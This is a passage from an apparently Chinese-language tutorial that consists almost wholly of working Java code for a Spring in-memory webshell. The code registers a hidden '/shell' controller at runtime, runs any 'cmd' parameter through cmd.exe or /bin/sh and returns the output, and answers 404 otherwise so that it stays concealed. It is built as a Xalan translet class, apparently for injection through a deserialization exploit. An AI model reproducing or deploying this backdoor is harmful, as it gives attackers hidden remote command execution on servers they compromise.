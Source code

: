 ```java
        // 通过反射获得该类的test方法
        Method method2 = InjectToController.class.getMethod("test");
        // 3. 定义访问 controller 的 URL 地址
        PatternsRequestCondition url = new PatternsRequestCondition("/shell");
        // 4. 定义允许访问 controller 的 HTTP 方法（GET/POST）
        RequestMethodsRequestCondition ms = new RequestMethodsRequestCondition();
        // 5. 在内存中动态注册 controller
        RequestMappingInfo info = new RequestMappingInfo(url, ms, null, null, null, null, null);
        // 创建用于处理请求的对象，加入"aaa"参数是为了触发第二个构造函数避免无限循环
        InjectToController injectToController = new InjectToController("aaa");
        mappingHandlerMapping.registerMapping(info, injectToController, method2);
    }
    // 第二个构造函数
    public InjectToController(String aaa) {}

    // controller指定的处理方法
    public void test() throws  IOException{
        // 获取request和response对象
        HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
        HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();

        //exec
        try {
            String arg0 = request.getParameter("cmd");
            PrintWriter writer = response.getWriter();
            if (arg0 != null) {
                String o = "";
                ProcessBuilder p;
                if(System.getProperty("os.name").toLowerCase().contains("win")){
                    p = new ProcessBuilder(new String[]{"cmd.exe", "/c", arg0});
                }else{
                    p = new ProcessBuilder(new String[]{"/bin/sh", "-c", arg0});
                }
                java.util.Scanner c = new java.util.Scanner(p.start().getInputStream()).useDelimiter("\\A");
                o = c.hasNext() ? c.next(): o;
                c.close();
                writer.write(o);
                writer.flush();
                writer.close();
            }else{
                //当请求没有携带指定的参数(code)时，返回 404 错误
                response.sendError(404);
            }
        }catch (Exception e){}
    }
    @Override
    public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws com.sun.org.apache.xalan.internal.xsltc.TransletException {
    }
    @Override
    public void transform(com.sun.org.apache.xalan.internal.xsltc.DOM document, com.sun.org.apache.xml.internal.dtm.DTMAxisIterator iterator, com.sun.org.apache.xml.internal.serializer.SerializationHandler handler) throws com.sun.org.apache.xalan.internal.xsltc.TransletException {
    }
}
```
![](https://img-blog.csdnimg.cn/7cb4318eb558469abccf4b8b5a923891.png)
